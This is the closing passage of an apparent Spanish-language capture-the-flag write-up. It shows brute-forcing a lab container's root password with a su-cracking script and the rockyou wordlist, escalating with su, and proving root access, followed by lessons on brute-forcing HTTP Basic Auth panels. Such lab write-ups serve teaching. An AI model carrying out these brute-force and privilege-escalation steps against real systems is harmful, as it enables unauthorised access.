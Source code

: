 Ahora si iniciamos el ataque de fuerza bruta para el usuario privilegiado **root**
```bash
bash Linux-Su-Force.sh root rockyou.txt
```

Tenemos las credenciales de usuario administrador
```bash
Contraseña encontrada para el usuario root: rockyou
balutin@3df40de16f5f:~$
```

Explotamos el privilegio
```bash
# Comando para escalar al usuario: ( root )
su root # ( rockyou )
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@3df40de16f5f:/home/balutin# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a realizar fuerza bruta a un panel de **HTTPBasicAuth**
2. Aprendimos a realizar fuerza bruta a otro panel pero web arrastrando las cabeceras **HTTP** para que nos tomara como logueados.